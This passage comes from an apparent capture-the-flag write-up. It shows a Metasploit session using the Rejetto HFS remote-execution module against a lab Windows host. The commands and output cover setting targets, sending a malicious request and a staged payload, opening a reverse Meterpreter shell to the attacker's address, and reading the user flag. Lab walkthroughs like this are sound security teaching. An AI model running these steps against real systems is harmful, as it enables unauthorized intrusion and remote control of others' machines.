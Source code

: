 ```bash
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.31.150.94    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/rejetto_hfs_exec) > setg RHOSTS 10.10.10.8
RHOSTS => 10.10.10.8
msf6 exploit(windows/http/rejetto_hfs_exec) > setg LHOST tun0
LHOST => tun0
```

We are now ready to run the exploit:

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.14.15:4444
[*] Using URL: http://10.10.14.15:8080/OPUDX6tKvSfLNyB
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /OPUDX6tKvSfLNyB
[*] Sending stage (175686 bytes) to 10.10.10.8
[!] Tried to delete %TEMP%\RLcLn.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.10.10.8:49162) at 2024-01-13 09:28:54 +0000
[*] Server stopped.

meterpreter >
```

We have a meterpreter shell back! Let's try to get our first flag:

```bash
meterpreter > dir
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040777/rwxrwxrwx  0       dir   2024-01-19 18:26:58 +0000  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 11:57:16 +0000  desktop.ini
100777/rwxrwxrwx  760320  fil   2017-03-18 12:11:17 +0000  hfs.exe
100444/r--r--r--  34      fil   2024-01-19 18:10:20 +0000  user.txt

meterpreter > cat user.txt
<SNIP>
```
